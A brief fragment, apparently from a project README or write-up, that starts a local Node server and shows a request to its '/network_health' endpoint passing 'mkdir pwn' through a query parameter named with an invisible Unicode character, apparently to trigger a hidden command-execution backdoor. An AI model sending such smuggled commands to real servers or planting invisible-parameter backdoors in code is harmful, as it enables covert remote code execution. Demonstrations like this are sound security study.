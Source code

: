 `npm run start`
`http://localhost:8080/network_health`
`http://localhost:8080/network_health?%E3%85%A4=mkdir pwn`
